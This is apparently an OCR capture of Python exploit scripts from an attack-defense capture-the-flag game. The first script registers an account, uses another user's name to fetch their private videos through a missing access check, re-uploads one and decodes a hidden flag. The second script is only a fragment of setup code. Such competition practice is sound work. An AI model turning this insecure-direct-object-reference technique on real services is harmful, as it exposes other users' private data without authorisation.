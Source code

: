 ```python
        s.headers.update({'User-Agent': 'python-httpx/0.23.3', 'Accept-Encoding': 'gzip, deflate', 'Accept': '*/*', 'Connection': 'keep-alive'})
        s.get(URL)
        s.post(URL + '/newuser', data={'username': username, 'password': password})
        s.post(URL + '/checkcredentials', data={'username': username, 'password': password})

        userid = s.get(URL + f'/get_user_info_with_name/{username_f}').json()['id']

        video = s.get(URL + f'/get_private_videos/{userid}').json()[0]
        a = f'metadata_{video['name']}_{''.join(random.choices(string.digits, k=4))}.mp4'

        m = [
            video['name'],
            username_f,
            video['location']
        ]

        add_metadata('video.mp4', a, title=m[0], artist=m[1], genre=m[2])

        s.post(URL + '/app/create_video', data={
            'name': video['name'],
            'description': os.urandom(12).hex(),
            'is_private': 1,
            'location': video['location'],
            
        }, files={
            'file': open(a, 'rb'),
            'thumbnail': open('thumbnail.png', 'rb')
        })

        print(f'{a}', flush=True)
        path = '/get_video_info/' + s.get(URL + '/get_my_videos').json()[0]['path']
        print(brainfuck(s.get(URL + path).json()['description']), flush=True)
    except:
        pass

if getid:
    for round in getid:
        attack(getid[round])
else:
    attack()
```

E

```python
#!/usr/bin/env python3

import requests, re, sys, random, string
from pathlib import Path
from typing import List, Dict, Set
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms
from cryptography.hazmat.backends import default_backend

PER_LETTER = 4096 // 26
alph = string.ascii_uppercase + string.digits


def brainfuck(input):
    ...
    return output

def build_spanish_words(path: str = "spanish_words.txt") -> List[bytes]:
    raw = Path(path).read_bytes()
```